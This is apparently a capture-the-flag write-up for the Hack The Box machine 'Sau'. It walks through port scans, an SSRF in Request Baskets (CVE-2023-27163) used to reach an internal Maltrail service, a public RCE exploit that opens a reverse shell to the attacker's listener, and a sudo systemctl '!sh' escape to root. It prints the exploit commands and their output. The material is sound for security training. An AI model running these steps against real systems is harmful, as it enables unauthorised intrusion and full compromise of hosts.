

# Sau
First I started a scan with nmap to discover the open services on the target host.

```
$ sudo nmap -sS -Pn --max-retries 1 --min-rate 20 -p- 10.10.11.224
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-11 14:25 CEST
Warning: 10.10.11.224 giving up on port because retransmission cap hit (1).
Nmap scan report for 10.10.11.224
Host is up (0.059s latency).
Not shown: 65450 closed tcp ports (reset), 83 filtered tcp ports (no-response)
PORT      STATE SERVICE
22/tcp    open  ssh
55555/tcp open  unknown
```
I noticed that some ports were skipped due to the '--max-retries 1' flag, so there may be some filtered services that are unreachable from the outside. I repeated the scan, which was slower, without those flags and found two filtered ports on the host.

```
$ sudo nmap -sS -Pn  -p- 10.10.11.224 
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-11 15:23 CEST
Nmap scan report for 10.10.11.224
Host is up (0.064s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    filtered http
8338/tcp  filtered unknown
55555/tcp open     unknown
```
Finally, I carried out a final scan to discover the versions of the services accessible from the outside.

```
$ sudo nmap -sS -Pn -sV -sC -p 22,55555 10.10.11.224              
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-11 14:28 CEST
Nmap scan report for 10.10.11.224
Host is up (0.051s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa8867d7133d083a8ace9dc4ddf3e1ed (RSA)
|   256 ec2eb105872a0c7db149876495dc8a21 (ECDSA)
|_  256 b30c47fba2f212ccce0b58820e504336 (ED25519)
55555/tcp open  unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Mon, 11 Sep 2023 12:28:43 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Mon, 11 Sep 2023 12:28:17 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Mon, 11 Sep 2023 12:28:17 GMT
|_    Content-Length: 0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port55555-TCP:V=7.93%I=7%D=9/11%Time=64FF07E0%P=x86_64-pc-linux-gnu%r(G
SF:etRequest,A2,"HTTP/1\.0\x20302\x20Found\r\nContent-Type:\x20text/html;\
SF:x20charset=utf-8\r\nLocation:\x20/web\r\nDate:\x20Mon,\x2011\x20Sep\x20
SF:2023\x2012:28:17\x20GMT\r\nContent-Length:\x2027\r\n\r\n<a\x20href=\"/w
SF:eb\">Found</a>\.\n\n")%r(GenericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Re
SF:quest\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x
SF:20close\r\n\r\n400\x20Bad\x20Request")%r(HTTPOptions,60,"HTTP/1\.0\x202
SF:00\x20OK\r\nAllow:\x20GET,\x20OPTIONS\r\nDate:\x20Mon,\x2011\x20Sep\x20
SF:2023\x2012:28:17\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequest
SF:,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;
SF:\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request"
SF:)%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20tex
SF:t/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20
SF:Request")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nCon
SF:tent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\
SF:r\n400\x20Bad\x20Request")%r(TerminalServerCookie,67,"HTTP/1\.1\x20400\
SF:x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nC
SF:onnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(TLSSessionReq,67,"
SF:HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20c
SF:harset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(K
SF:erberos,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text
SF:/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20R
SF:equest")%r(FourOhFourRequest,EA,"HTTP/1\.0\x20400\x20Bad\x20Request\r\n
SF:Content-Type:\x20text/plain;\x20charset=utf-8\r\nX-Content-Type-Options
SF::\x20nosniff\r\nDate:\x20Mon,\x2011\x20Sep\x202023\x2012:28:43\x20GMT\r
SF:\nContent-Length:\x2075\r\n\r\ninvalid\x20basket\x20name;\x20the\x20nam
SF:e\x20does\x20not\x20match\x20pattern:\x20\^\[\\w\\d\\-_\\\.\]{1,250}\$\
SF:n")%r(LPDString,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:
SF:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20
SF:Bad\x20Request")%r(LDAPSearchReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request
SF:\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20clo
SF:se\r\n\r\n400\x20Bad\x20Request");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

On port `55555` you can make GET and OPTIONS requests, so I connected to it via browser.

<div><p align="center"></div>

As you can see from the image, the name and version of this service are present.

<div><p align="center"></div>

I searched on the internet and discovered that [Request Baskets](https://github.com/darklynx/request-baskets) is a web service to collect arbitrary HTTP requests and inspect them via RESTful API or simple web UI. It is strongly inspired by ideas and application design of the RequestHub project and reproduces functionality offered by RequestBin service.

### CVE-2023-27163 

n via a crafted API request. In short, this vulnerability allows you to redirect requests directed to the server to another port or even another IP.> In particular, [request-baskets up to v1.2.1](https://cve.circl.lu/cve/CVE-2023-27163) was discovered to contain a Server-Side Request Forgery (SSRF) via the component /api/baskets/{name}. This vulnerability allows attackers to access network resources and sensitive informatio

By exploiting this vulnerability I could reach the filtered services on ports 80 and 8338, to do this I found a public exploit on [github](https://github.com/entr0pie/CVE-2023-27163). I downloaded the exploit and ran it on my attacking machine.


```
$ ./CVE-2023-27163.sh http://10.10.11.224:55555/ http://127.0.0.1:80/  
Proof-of-Concept of SSRF on Request-Baskets (CVE-2023-27163) || More info at https://github.com/entr0pie/CVE-2023-27163

> Creating the "rjxsgj" proxy basket...
> Basket created!
> Accessing http://10.10.11.224:55555/rjxsgj now makes the server request to http://127.0.0.1:80/.
> Authorization: 5a2ovn0HdKO6dRMDPwELYCMB_97paH5m40ptrvoMXAXd   
```

I checked both ports and there is the same service on both port `80` and port `8338`, I focus on port `80`.

<div><p align="center"></div>

[Maltrail](https://github.com/stamparm/maltrail) is a malicious traffic detection system, utilizing publicly available black lists containing malicious and/or generally suspicious trails, along with static trails compiled from various AV reports and custom user defined lists, where trail can be anything from domain name (e.g. zvpprsensinaix.com for Banjori malware), URL (e.g. hXXp://109.162.38.120/harsh02.exe for known malicious executable), IP address (e.g. 185.130.5.231 for known attacker) or HTTP User-Agent header value (e.g. sqlmap for automatic SQL injection and database takeover tool). Also, it uses (optional) advanced heuristic mechanisms that can help in discovery of unknown threats (e.g. new malware).

Again I searched for the version on the internet and discovered that this version of Malrail is vulnerable to Remote Code Execution (RCE), and there are many public exploits.

I downloaded an [exploit](https://www.exploit-db.com/exploits/51676), set up a listener via metasploit, and ran the exploit. So I got a perfectly working reverse shell.

* exploit
```
$ python 51676 10.10.14.59 4444 http://10.10.11.224:55555/rjxsgj         
Running exploit on http://10.10.11.224:55555/rjxsgj/login

```

* reverse shell
```
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.59:4444 
[*] Command shell session 1 opened (10.10.14.59:4444 -> 10.10.11.224:43028) at 2023-09-13 10:58:52 +0200


Shell Banner:
$
-----

$ python3 -c 'import pty; pty.spawn("/bin/bash");'
python3 -c 'import pty; pty.spawn("/bin/bash");'
puma@sau:/opt/maltrail$
```

At this moment I check the puma user on the system, to find the user.txt flag I just had to go to his home page.
```
puma@sau:~$ pwd
/home/puma
puma@sau:~$ cat user.txt
********************************
```

Next I downloaded and ran linpeas on the target machine looking for some possible PE vectors. The `puma` user can run the `systemctl status trail.service` command with sudo permissions without having to enter any password.

<div><p align="center"></div>

I immediately searched [GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/) for a possible exploit and found something usefu, I can get a shell via the `systemctl` command, if the command is run with root permissions then I can get a root shell.

<div><p align="center"></div>

I just ran the command, and before closing the status screen I wrote `!sh` in the terminal.

```
puma@sau:/opt/maltrail$ sudo /usr/bin/systemctl status trail.service
WARNING: terminal is not fully functional
-  (press RETURN)
● trail.service - Maltrail. Server of malicious traffic detection system
     Loaded: loaded (/etc/systemd/system/trail.service; enabled; vendor preset:>
     Active: active (running) since Wed 2023-09-13 07:27:07 UTC; 7h ago
       Docs: https://github.com/stamparm/maltrail#readme
             https://github.com/stamparm/maltrail/wiki
   Main PID: 879 (python3)
      Tasks: 187 (limit: 4662)
     Memory: 561.6M
     CGroup: /system.slice/trail.service
             ├─  879 /usr/bin/python3 server.py
             ├─ 2731 /bin/sh -c logger -p auth.info -t "maltrail[879]" "Failed >
             ├─ 2732 /bin/sh -c logger -p auth.info -t "maltrail[879]" "Failed >
             ├─ 2735 sh
             ├─ 2736 python3 -c import socket,os,pty;s=socket.socket(socket.AF_>
             ├─ 2749 /bin/sh
             ├─12205 /bin/bash
             ├─19086 sudo /usr/bin/systemctl status trail.service
             ├─19087 /usr/bin/systemctl status trail.service
             ├─19088 pager
             ├─19094 /bin/sh -c logger -p auth.info -t "maltrail[879]" "Failed >
             ├─19095 /bin/sh -c logger -p auth.info -t "maltrail[879]" "Failed >
             ├─19098 sh
             ├─19099 python3 -c import socket,os,pty;s=socket.socket(socket.AF_>
lines 1-23!sh
!sshh!sh
# whoami
whoami
root
```

Then I just went to the `root/` directory and read the `root.txt` file.

```
# cd /root
cd /root
# cat root.txt
cat root.txt
********************************
```